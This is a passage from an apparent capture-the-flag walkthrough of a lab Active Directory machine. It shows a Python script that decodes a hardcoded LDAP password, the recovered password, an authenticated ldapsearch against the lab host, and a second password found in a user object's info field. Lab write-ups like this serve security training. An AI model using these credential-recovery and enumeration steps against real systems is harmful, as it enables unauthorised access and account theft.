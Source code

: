 ### Python Decryption

```python
import base64
from itertools import cycle

enc_password = base64.b64decode("0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E")
key = b"armando"

res = ''
for e, k in zip(enc_password, cycle(key)):
    res += chr(e ^ k ^ 223)

print(res)
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold">
        <i class="fas fa-key mr-2 text-green-500"></i>
        LDAP password: <code>nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz</code>
    </p>
</div>


## 🧩 Phase 4 — LDAP Connection

Configure hosts:

```bash
echo '10.129.178.26 support.htb' | sudo tee -a /etc/hosts
```

LDAP connection:

```bash
ldapsearch -h support.htb -D ldap@support.htb -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "dc=support,dc=htb" "*"
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-lg">
        <i class="fas fa-check-circle mr-2 text-green-500"></i>
        LDAP connection successful\! Active Directory enumeration possible.
    </p>
</div>


## 🧍 Phase 5 — Support Account Discovery

In CN=Users, the support object contains:

```
info: Ironside47pleasure40Watchful
memberOf: Remote Management Users
```
